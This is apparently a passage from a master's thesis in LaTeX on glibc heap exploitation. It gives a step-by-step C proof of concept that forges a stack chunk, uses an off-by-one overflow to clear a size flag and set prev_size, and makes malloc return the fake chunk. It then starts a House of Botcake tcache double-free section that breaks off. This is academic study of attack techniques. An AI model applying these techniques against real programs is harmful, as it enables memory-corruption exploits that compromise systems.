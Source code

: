 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\sbs{small bins}
\begin{document}
By considering the merge code of the free function we can tell if we have control over prev\_size , and prev\_inuse flag, we can have control over new chunk location. 
Consider the following sample, first, we need a chunk inside the heap, also, we need a fake chunk in any location. For this example we use the stack for fake chunk:
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* a;
a = (uint8_t*) malloc(0x38);
int real_a_size = malloc_usable_size(a);
size_t fake_chunk[6];
fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the \sbs{}
fake_chunk[2] = (size_t) fake_chunk; // fwd
fake_chunk[3] = (size_t) fake_chunk; // bck
fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
 \end{lstlisting}

Now we need another chunk inside the heap:

\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
int real_b_size = malloc_usable_size(b);
uint64_t* b_size_ptr = (uint64_t*)(b - 8);
\end{lstlisting}

Now we use ‘a’ inorder to overflow and manipulate the size of ‘b’

\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
\end{lstlisting}

 Now its time to set prev\_size of our fake chunk to an inorder to merge it with our fake chunk

\begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
\end{lstlisting}

The final step is free ‘b’ , after free ‘b’ it be merged with out fake chunk , so next malloc return our fake chunk

\begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
\end{lstlisting}


\subsection{ The House of Botcake}
The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first, we assume our target is at the stack 
\end{document}
